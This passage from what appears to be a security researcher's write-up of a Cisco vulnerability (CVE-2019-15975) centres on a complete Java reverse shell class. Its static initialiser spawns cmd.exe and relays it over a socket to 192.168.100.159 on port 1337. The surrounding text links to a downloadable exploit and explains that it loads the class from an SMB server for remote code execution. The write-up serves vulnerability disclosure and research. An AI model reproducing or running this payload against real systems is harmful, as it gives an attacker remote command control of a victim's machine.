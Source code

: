 <p markdown="1" class="cn">In the below example, `Si.java` was a reverse shell.</p>

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Si {
    static{
        try {
            String host = "192.168.100.159";
            int port = 1337;
            String cmd = "cmd.exe";
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s = new Socket(host,port);
            InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
            OutputStream po = p.getOutputStream(), so = s.getOutputStream();
            while(!s.isClosed()){
                while(pi.available()>0){
                    so.write(pi.read());
                }
                while(pe.available()>0){
                    so.write(pe.read());
                }
                while(si.available()>0){
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                }catch (Exception e){}
            }
            p.destroy();
            s.close();
        }catch (IOException | InterruptedException e){ }
    }
}
```

{% include image.html
            img="assets/images/busting-ciscos-beans-hardcoding-your-way-to-hell/keytool-cmdi.png"
            title="Loading remote java classes and gaining remote code execution"
            caption="Loading remote java classes and gaining remote code execution"
            style="width:80%;height:80%" %}

<p markdown="1" class="cn">You can [download](/pocs/cve-2019-15975.py.txt) the exploit and test it for yourself. You will need an SMB server that is hosting the `Si.class` file.</p>
<p markdown="1" class="cn">[ret2toc](#table-of-contents)</p>
